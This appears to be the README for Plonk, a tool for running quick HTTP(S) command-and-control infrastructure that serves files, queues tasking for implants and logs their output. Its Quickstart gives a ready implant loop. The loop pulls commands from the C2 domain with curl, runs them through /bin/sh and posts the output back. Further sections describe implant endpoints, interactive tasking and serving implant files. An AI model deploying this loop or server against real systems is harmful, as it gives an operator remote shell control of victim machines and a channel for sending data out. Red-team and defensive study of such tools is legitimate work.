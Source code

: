 Plonk HTTP C2 and Static File Server
====================================
Plonk is a little HTTP(s) server program you can just plonk down and use for
quick'n'dirty C2ish infrastructure.  It serves static file and can serve
rudimentary tasking and take output.

Quickstart
----------
1. Start the C2 server
```bash
go install github.com/magisterquis/plonk@latest
plonk -h
plonk -letsencrypt c2domain.example.com
```
2. Get an implant going on target
```bash
while :; do
        curl -s https://c2domain.example.com/t/kittens | \
        /bin/sh | \
        curl --data-binary @- -s https://c2domain.example.com/o/kittens
        
        sleep 15
done
```
3. Tasking and output
```bash
plonk -interact kittens
ps awwwfux
```

Features
--------
- HTTP
- HTTPS with (in order of preference)
  - Automatic certificate provisioning with Let's Encrypt
  - Easy usage of custom certificates
  - Self-signed certificate generation
- Static file server
- Tasking over HTTP(s)
- Task output logging over HTTP(s)
- Simple interactive interface

Installation
------------
With a [typical Go installation](https://golang.org/...):
```sh
go install github.com/magisterquis/plonk@latest
```

Alternatively, Plonk for several architectures may be built with
[`build.sh`](./build.sh).

Static And Default Files
------------------------
Static files placed in `plonk.d/files` will be served under the path `/f`, e.g.
a request for `https://example.com/f/tools/implant` will return
`plonk.d/files/tools/implant`.

Requests for unexpected paths (i.e. not in the table below) will be served
a static file, `plonk.d/index.html`.

Implants
--------
Plonk does not currently have any pre-built implants.  The Implant HTTP API
(such as it is) is a follows:

Default Endpoint | [Environment Variable](#Environment-Variables) | Description
-----------------|------------------------------------------------|-
`/f/<path>`      | `PLONK_FILESPREFIX`/`PLONK_STATICFILESDIR`     | Download a static file
`/t/<ImplantID>` | `PLONK_TASKPREFIX`                             | Retrieve tasking
`/o/<ImplantID>` | `PLONK_OUTPUTPREFIX`                           | Return output

The `/<ImplantID>` above may be omitted for an IDless implant.  To interact
with an IDless implant, `-task -` and `-interact -` may be used.  If more than
one implant doesn't provide an ImplantID, tasking will go to whichever asks
first.

Signals
-------
Plonk listens for two Signals, SIGHUP and SIGUSR1.

SIGHUP causes the following:
- Tasking file is closed and reopened.  This is useful for after editing it
  with vim.
- Certificates cached in memory are forgotten.  This is useful for manual
  certificate updating with no downtime.
- Seen implants are forgotten.  This is useful for logging the next callback
  of an implant which has already called back without using `-verbose`.

SIGUSR1 causes the following:
- Generated self-signed certificates are written to disk.  This is useful for
  restarting Plonk while an implant which checks a self-signed cert's
  fingerprint is still running.

Usage
-----
```
Usage: plonk [options]

  HTTP(s)-based static file and rudimentary C2 server.

  Upon starting, Plonk will make a directory (-work-dir, currently plonk.d),
  chdir into it, and make other supporting files and directories.  The names of
  these and several other things can be controlled with environment variables,
  listable with -print-env.

  TLS certificates may, in order of preference, be automatically provisioned
  using Let's Encrypt (-letsencrypt*), stored as pairs of
  plonk.d/certs/domain.tld.{crt,key}, or failing that, generated as
  self-signed certificates.

  Do not use -letsencrypt unless you accept Let's Encrypt's Terms of Service.

  Files and directories under plonk.d/files/ will served when Plonk gets a
  request for a path under /f/.

  C2 tasking is retrieved by a request to /t/<ImplantID>.  The /<ImplantID>
  may be empty; Plonk treats this as an IDless implant.  Tasking is stored in a
  single JSON file (currently plonk.d/tasking.json), which may be updated by
  hand or with -task or -implant, as below.  Plonk doesn't do anything to
  process tasking; whatever it gets it sends directly to the implant.

  Output from implants is sent in an HTTP request body to /o/<ImplantID>, or
  just /o for an IDless implant.

  HTTP verbs for all requests are ignored.  HTTP requests for paths other than
  the above are served a single static file, by default plonk.d/index.html.

  All of the above is logged in plonk.d/log.

  When Plonk gets a SIGHUP, it reopens the taskfile and forgets the self-signed
  certificates it's generated as well as its list of seen implants.  When Plonk
  gets a SIGUSR1, it writes the self-signed certificates it's generated to the
  local certificate directory.

  The first time Plonk is run, it is helpful to use -verbose.

Usage: plonk -task implantID|- [task...]

  Adds a task for the given implant, or - for the IDless implant.  This
  invocation af Plonk must be run with the same idea of the tasking file
  (currently plonk.d/tasking.json) as the server process.

Usage: plonk -implant implantID|-

  Interactive(ish) operation.  Given an implant ID (or - for the IDlessimplant)
  it queues as tasking non-blank, non #-prefixed lines it reads on standard
  input and displays relevant logfile lines on standard output.  Probably best
  used with rlwrap.  Like -task, this invocation of Plonk must be run with the
  same idea of the tasking file (currently plonk.d/tasking.json) as well as the
  logfile (currently plonk.d/log).

Options:
  -http address
    	HTTP address
  -https address
    	HTTPS address (default "0.0.0.0:443")
  -interact string
    	Interact with the given implant ID, or - for an IDless implant
  -letsencrypt domain
    	Use Let's Encrypt to provision certificates for the given domain (may be repeated)
  -letsencrypt-email address
    	Optional email address to use for Let's Encrypt
  -letsencrypt-staging
    	Use Let's Encrypt's staging server
  -print-env
    	Print the configuration environment variables
  -task ID
    	Queue a task for the given implant ID or - for an IDless implant
  -verbose
    	Log ALL the things
  -whitelist-self-signed domain
    	Allow self-signed cert generation for the given (possibly wildcarded) domain or IP address (may be repeated, default *)
  -work-dir directory
    	Working directory (default "plonk.d")
```

Environment Variables
---------------------
Plonk reads configuration from the following environment variables at runtime:

Variable|Default|Description
-|-
`PLONK_DEFAULTFILE`    |`index.html`   | File served for otherwise-unhandled requests
`PLONK_FILESPREFIX`    |`f`            | URL path prefix for requesting static files
`PLONK_HTTPTIMEOUT`    |`1m`           | HTTP request timeout
`PLONK_LECERTDIR`      |`lecerts`      | Let's Encrypt certificate cache directory
`PLONK_LOCALCERTDIR`   |`certs`        | Locally-configured (non-Let's Encrypt) certificate directory
`PLONK_LOGFILE`        |`log`          | Logfile
`PLONK_OUTPUTMAX`      |`10485760`     | Maximum output read in one request from an Implant
`PLONK_OUTPUTPREFIX`   |`o`            | URL path prefix used by implants to request to send output
`PLONK_STATICFILESDIR` |`files`        | Static files directory
`PLONK_TASKFILE`       |`tasking.json` | Queued tasking file
`PLONK_TASKPREFIX`     |`t`            | URL path prefix used by implants to request tasking

The list may also be printed with `-print-env`.

Filenames and directories above are taken as subdirectories of Plonk's working
directory, by default `plonk.d` unless they're absolute paths.
